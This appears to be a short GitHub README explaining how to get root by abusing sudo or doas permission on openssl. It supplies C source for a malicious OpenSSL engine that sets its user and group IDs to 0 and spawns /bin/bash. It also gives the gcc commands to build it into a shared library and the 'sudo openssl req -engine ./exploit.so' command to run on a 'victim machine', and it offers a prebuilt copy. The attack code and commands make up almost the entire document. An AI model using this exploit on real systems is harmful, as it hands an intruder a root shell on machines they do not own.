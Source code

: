 # openssl-privilege-escalation
How to get ROOT with openssl

On kali(attacker), create a file called exploit.c with the following content:
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0); setgid(0);
  system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()

Then execute 2 commands:
gcc -fPIC -o exploit.o -c exploit.c
gcc -shared -o exploit.so -lcrypto exploit.o

Upload exploit.so to the victim machine then run:
sudo openssl req -engine ./exploit.so
(also worked with doas because I have tested it)
I have uploaded the exploit.so, so you can just run the above command without building it
